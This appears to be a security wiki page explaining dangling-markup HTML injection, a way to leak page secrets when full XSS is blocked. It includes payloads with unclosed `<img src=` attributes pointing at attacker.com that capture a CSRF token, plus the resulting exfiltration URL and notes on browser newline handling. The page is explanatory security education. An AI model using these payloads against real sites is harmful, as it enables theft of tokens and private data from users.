 ```yaml
---
description: Tricks possible with malicious HTML, in case XSS is not quite possible
---
```


# HTML Injection

## # Related Pages

{% content-ref url="./" %}
[.](./)
{% endcontent-ref %}

## Dangling Markup

The idea of [Dangling Markup](https://lcamtuf.coredump.cx/postxss/) is to write incomplete HTML that slots sensitive information into some leakable field, such as an `<img src=`. By starting it with a `'` but not ending it, any other HTML will be appended to it, finally being close by a natural `'` anywhere below the injection point.

{% code title="Payload" %}
```html
<img src='//attacker-website.com?
```
{% endcode %}

{% code title="HTML Source" %}
```html
<img src='https://attacker.com?</div>
<input type="hidden" name="csrf" value="1337">
</form>
<p>I'm hacked? Oh no!</p>
```
{% endcode %}

This results in an image request to the following URL, which the attacker can decode to get the value of the sensitive CSRF token:

[https://attacker.com/?%3C/div%3E%3Cinput%20type=%22hidden%22%20name=%22csrf%22%20value=%221337%22%3E%3C/form%3E%3Cp%3EI](https://attacker.com/?%3C/div%3E%3Cinput%20type=%22hidden%22%20name=%22csrf%22%20value=%221337%22%3E%3C/form%3E%3Cp%3EI)

You may also find a scenario where there is no double or single quote after the data you want to leak, but if the data you seek is close enough (eg. without   or `>` in between), you could leak it _without quotes at all_. Below is an example where sensitive data is appended to your input:

{% code title="HTML Source" %}
```html
<img src=https://attacker.com?SECRET_DATA
<p>Some more text</p>
```
{% endcode %}

One annoying thing to work with is that Chromium denies any URLs (or `target` values) containing newlines. If the leaked content contains any newlines, as is pretty common for HTML, the attacker cannot receive a request. Minifiers will sometimes remove newlines as they are unnecessary, but more often than not, you will have to deal with this. Firefox still allows newlines in URLs, though, so you're not left without impact.

